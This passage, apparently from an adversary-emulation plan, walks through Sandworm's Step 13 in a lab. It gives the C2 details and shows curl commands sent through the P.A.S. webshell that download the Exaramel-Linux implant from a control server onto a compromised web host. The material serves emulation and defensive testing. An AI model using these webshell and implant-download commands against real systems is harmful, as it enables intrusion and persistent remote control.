 [Source Code](../../Resources/phpWebShell/webShell.php#L35)

### :microscope: Cited Intelligence

* <https://www.justice.gov/opa/press-release/file/1328521/download>

* <https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/>

<br>

## Step 13 - Upload and Execute Exaramel (Linux Variant)

:microphone: `voice track`

Sandworm downloads an ELF executable from the control server using curl.

The ELF executable is an implant based on Exaramel-Linux.

Once downloaded to disk, Sandworm sets Exaramel-Linux's file permissions to read-write-execute.

Finally, Sandworm executes Exaramel-Linux.

Exaramel-Linux establishes HTTPS C2 with the control server.

```
C2 Info

Connects to: 192.168.0.4:8443

Protocol: HTTPS

File write: /var/www/html/centreon_module_linux_app64
```

### ☣️ Procedures

:warning: Open a new terminal tab (ctrl+shift+t) and start the control server.

Double click the terminal tab to change its name. Name your terminal tab "control server" for easy identification.

```bash
cd wizard_spider/Resources/control_server && sudo ./controlServer
```

:warning: Go back to your P.A.S. webshell terminal.

Execute `curl` to download Exaramel-Linux to `/var/www/html/centreon_module_linux_app64`:

```bash
# P.A.S. Webshell can upload and download files to and from compromised hosts.

curl --insecure "https://10.0.1.5/search.php?cmd=curl+--insecure+https://192.168.0.4/getFile/Exaramel-Linux+-o+centreon_module_linux_app64"
```

Confirm 'centreon_module_linux_app64' downloaded successfully:

```bash
curl --insecure "https://10.0.1.5/search.php?cmd=ls+-lsah"
```
